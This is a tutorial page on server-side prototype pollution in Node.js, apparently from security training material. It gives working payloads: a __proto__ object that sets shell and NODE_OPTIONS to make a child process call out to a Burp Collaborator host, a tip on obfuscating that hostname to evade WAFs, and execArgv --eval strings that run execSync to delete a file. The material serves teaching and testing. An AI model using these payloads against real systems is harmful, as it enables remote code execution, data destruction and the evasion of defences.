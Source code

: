 While client-side prototype pollution typically exposes the vulnerable website to DOM XSS, server-side prototype pollution can potentially result in remote code execution (RCE). In this section, you'll learn how to identify cases where this may be possible and how to exploit some potential vectors in Node applications.

## Identifying a vulnerable request

There are a number of potential command execution sinks in Node, many of which occur in the `child_process` module. These are often invoked by a request that occurs asynchronously to the request with which you're able to pollute the prototype in the first place. As a result, the best way to identify these requests is by polluting the prototype with a payload that triggers an interaction with Burp Collaborator when called.

The `NODE_OPTIONS` environment variable enables you to define a string of command-line arguments that should be used by default whenever you start a new Node process. As this is also a property on the `env` object, you can potentially control this via prototype pollution if it is undefined.

## Identifying a vulnerable request - Continued

Some of Node's functions for creating new child processes accept an optional `shell` property, which enables developers to set a specific shell, such as bash, in which to run commands. By combining this with a malicious `NODE_OPTIONS` property, you can pollute the prototype in a way that causes an interaction with Burp Collaborator whenever a new Node process is created:
```javascript
"__proto__": {
    "shell":"node",
    "NODE_OPTIONS":"--inspect=YOUR-COLLABORATOR-ID.oastify.com\"\".oastify\"\".com"
}
```
This way, you can easily identify when a request creates a new child process with command-line arguments that are controllable via prototype pollution.

#### Tip

The escaped double-quotes in the hostname aren't strictly necessary. However, this can help to reduce false positives by obfuscating the hostname to evade WAFs and other systems that scrape for hostnames.

## Remote code execution via child_process.fork()

Methods such as `child_process.spawn()` and `child_process.fork()` enable developers to create new Node subprocesses. The `fork()` method accepts an options object in which one of the potential options is the `execArgv` property. This is an array of strings containing command-line arguments that should be used when spawning the child process. If it's left undefined by the developers, this potentially also means it can be controlled via prototype pollution.

As this gadget lets you directly control the command-line arguments, this gives you access to some attack vectors that wouldn't be possible using `NODE_OPTIONS`. Of particular interest is the `--eval` argument, which enables you to pass in arbitrary JavaScript that will be executed by the child process. This can be quite powerful, even enabling you to load additional modules into the environment:

```javascript
"execArgv": [
    "--eval=require('<module>')"
]
// Or
"execArgv":[
	"--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
]
```

